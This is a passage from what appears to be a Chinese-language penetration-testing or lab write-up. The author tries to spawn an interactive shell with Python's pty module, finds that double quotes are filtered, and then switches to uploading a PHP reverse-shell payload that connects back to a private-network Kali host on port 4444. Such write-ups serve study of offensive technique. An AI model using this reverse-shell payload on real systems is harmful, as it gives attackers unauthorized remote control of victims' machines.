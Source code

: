 ![3-5.png](3-5.png)

![3-6.png](3-6.png)

执行其他命令的时候遇到一点问题, 如 `python -c 'import pty;pty.spawn("bin/bash")'`, 返回报错:

```
File "<string>", line 1
    import pty;pty.spawn(/bin/bash)
                         ^
SyntaxError: invalid syntax
```

看起来是因为 `"` 被屏蔽了, 这里尝试了很久也没能突破, 先作罢, 试试不用 webshell 而是直接传反弹 shell 到 kali 上:

```php
<?php exec("/bin/bash -c 'bash -i >& /dev/tcp/192.168.170.145/4444 0>&1'"); ?>
```
